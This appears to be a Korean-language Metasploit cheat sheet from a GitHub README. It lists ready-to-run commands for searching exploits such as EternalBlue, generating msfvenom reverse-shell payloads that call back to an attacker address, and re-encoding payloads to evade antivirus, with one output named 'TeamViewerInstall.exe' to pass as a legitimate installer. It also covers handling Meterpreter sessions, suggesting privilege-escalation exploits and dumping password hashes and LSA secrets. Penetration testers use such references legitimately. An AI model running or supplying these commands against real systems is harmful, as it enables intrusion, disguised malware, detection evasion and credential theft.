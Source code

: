 # MSF Components

### 모듈 검색
```msf6 > search <모듈명>```

### 특정 Exploit 모듈 검색
```msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft```

## 특정 Payload 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads```

### 특정 Payload 추가 명령 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads```

### MSFVenom으로 Payload 생성 (예 : aspx)
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f aspx > reverse_shell.aspx```

### MSFVenom으로 Payload Encoding (예 : shikata_ga_nai)
```msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai```

### MSF에서 Payload Encoding
```msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders```

### 탐지 우회를 위한 반복 Encoding (약간의 효과)
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 플러그인 추가 설치(예 : pentest)
```
git clone https://github.com/darkoperator/Metasploit-Plugins
cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
msfconsole -q
msf > load pentest
```

### 인기 있는 플러그인
| [nMap (pre-installed)](https://nmap.org/)                                                                           | [NexPose (pre-installed)](https://sectools.org/tool/nexpose/)                                                                       | [Nessus (pre-installed)](https://www.tenable.com/products/nessus)                                               |
| ------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| [Mimikatz (pre-installed V.1)](http://blog.gentilkiwi.com/mimikatz)                                                 | [Stdapi (pre-installed)](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi) | [Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation) |
| [Priv](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb) | [Incognito (pre-installed)](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)                                 | [Darkoperator's](https://github.com/darkoperator/Metasploit-Plugins)                                            |
<br/><br/>
# MSF Sessions

### 활성 Session List
```msf6 exploit(windows/smb/psexec_psh) > sessions```

### 활성 Session 사용
```msf6 exploit(windows/smb/psexec_psh) > sessions -i 1```

### 백그라운드 Job으로 실행
```msf6 exploit(multi/handler) > exploit -j```

### 백그라운드 Job List
```msf6 exploit(multi/handler) > jobs -l```

### Meterpreter Session에서 MSF로 잠시 전환
```meterpreter > bg```

### Local Exploit Suggester로 권한 상승 exploit 테스트
```
msf6 > search local exploit suggester
msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Meterpreter Session에서 Hash 추출 (SYSTEM 권한일 경우)
```meterpreter > hashdump```<br/>
```meterpreter > lsa_dump_sam```<br/>
```meterpreter > lsa_dump_secrets```
